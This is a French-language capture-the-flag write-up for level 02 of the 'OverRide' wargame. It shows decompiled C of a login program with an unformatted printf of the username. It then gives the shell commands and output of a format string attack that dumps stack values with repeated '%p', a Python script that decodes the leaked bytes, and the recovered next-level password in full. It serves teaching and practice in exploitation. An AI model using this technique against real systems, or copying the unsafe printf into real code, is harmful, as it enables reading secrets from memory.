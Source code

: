 # **Level 02**

Code decompiler:

```
undefined8 main(void)

{
  int iVar1;
  size_t sVar2;
  long lVar3;
  undefined8 *puVar4;
  undefined8 local_118 [14];
  undefined8 local_a8 [6];
  undefined8 local_78 [12];
  int local_14;
  FILE *local_10;
  
  puVar4 = local_78;
  for (lVar3 = 0xc; lVar3 != 0; lVar3 = lVar3 + -1) {
    *puVar4 = 0;
    puVar4 = puVar4 + 1;
  }
  *(undefined4 *)puVar4 = 0;
  puVar4 = local_a8;
  for (lVar3 = 5; lVar3 != 0; lVar3 = lVar3 + -1) {
    *puVar4 = 0;
    puVar4 = puVar4 + 1;
  }
  *(undefined *)puVar4 = 0;
  puVar4 = local_118;
  for (lVar3 = 0xc; lVar3 != 0; lVar3 = lVar3 + -1) {
    *puVar4 = 0;
    puVar4 = puVar4 + 1;
  }
  *(undefined4 *)puVar4 = 0;
  local_10 = (FILE *)0x0;
  local_14 = 0;
  local_10 = fopen("/home/users/level03/.pass","r");
  if (local_10 == (FILE *)0x0) {
    fwrite("ERROR: failed to open password file\n",1,0x24,stderr);
                    // WARNING: Subroutine does not return
    exit(1);
  }
  sVar2 = fread(local_a8,1,0x29,local_10);
  local_14 = (int)sVar2;
  sVar2 = strcspn((char *)local_a8,"\n");
  *(undefined *)((long)local_a8 + sVar2) = 0;
  if (local_14 != 0x29) {
    fwrite("ERROR: failed to read password file\n",1,0x24,stderr);
    fwrite("ERROR: failed to read password file\n",1,0x24,stderr);
                    // WARNING: Subroutine does not return
    exit(1);
  }
  fclose(local_10);
  puts("===== [ Secure Access System v1.0 ] =====");
  puts("/***************************************\\");
  puts("| You must login to access this system. |");
  puts("\\**************************************/");
  printf("--[ Username: ");
  fgets((char *)local_78,100,stdin);
  sVar2 = strcspn((char *)local_78,"\n");
  *(undefined *)((long)local_78 + sVar2) = 0;
  printf("--[ Password: ");
  fgets((char *)local_118,100,stdin);
  sVar2 = strcspn((char *)local_118,"\n");
  *(undefined *)((long)local_118 + sVar2) = 0;
  puts("*****************************************");
  iVar1 = strncmp((char *)local_a8,(char *)local_118,0x29);
  if (iVar1 == 0) {
    printf("Greetings, %s!\n",local_78);
    system("/bin/sh");
    return 0;
  }
  printf((char *)local_78);
  puts(" does not have access!");
                    // WARNING: Subroutine does not return
  exit(1);
}
```
On remarque tres vite un `printf` qui n'est pas au bon `format` a la ligne 75 `printf((char *)local_78);`
Nous serons donc probablement sur un exploit `Format string attack`
Testons un peu le programme,
```
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: test
--[ Password: test
*****************************************
test does not have access!
```
Maintenant avec du format pris en charge par printf, sachat que le printf mal former affiche l'username,
```
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %p
--[ Password: test
*****************************************
0x7fffffffe4f0 does not have access!
```
De plus, on peut voir dans le code que le `.pass` du `user suivant` est `stocker` dans la `stack` apres un open puis un read.
Donc si l'on affiche des %p avec notre printf, nous devrions voir notre .pass apparaitre
```
level02@OverRide:~$ (python -c "print '%p '*200"; python -c "print 'test'") > /var/crash/file
level02@OverRide:~$ cat /var/crash/file - | ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe4f0 (nil) 0x25 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6e8
0x1f7ff9a08 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025
0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520
0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070
0x100207025 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758
0x354a35686e475873 0x48336750664b394d (nil) 0x7025207025207025 0x2520702520702520
0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070  does not have access!
```
On voit donc en sortie, notre enchainement de `702520` qui correspond a `'%p '` une suite de characteres pui de nouveau notre enchainement,
Penchons nous sur ces characteres:
`0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d`
Si on decode de l'hexa vers l'ascii la premiere suite (en enlevant le 0x au prealable), on obtient `unPR47hH`,
Or on sait que les adresses sont notees en little endian, donc il faut reverse le resultat, ce qui donne `Hh74RPnu`.
Faisons sur le tout,
```
decrypt.py

l = "756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d"
l = l.split()
for s in l:
	print(bytearray.fromhex(s).decode()[::-1], end="")
print("")

```
```
python decrypt.py 
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
testons ce password pour level03,
```
level02@OverRide:~$ su level03
Password: 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   /home/users/level03/level03
```
> ### NEXT : [Level 03](/level03/resources/README.md)
